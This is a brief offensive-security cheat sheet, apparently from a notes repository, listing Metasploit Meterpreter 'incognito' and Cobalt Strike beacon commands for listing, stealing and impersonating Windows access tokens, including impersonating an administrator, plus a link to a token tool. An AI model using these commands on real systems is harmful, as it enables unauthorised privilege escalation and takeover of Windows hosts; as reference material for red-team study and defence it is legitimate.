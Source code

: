   #### MSF
	Meterpreter>use incognito
	Meterpreter>list_tokens -u
	Meterpreter>impersonate_token name\\administrator
	&
	Meterpreter>ps
	Meterpreter>steal_token pid
  #### Cobalt strike
	beacon> steal_token 1234 窃取令牌
	beacon> rev2self 恢复令牌
	Windows
	https://gitee.com/RichChigga/incognito2
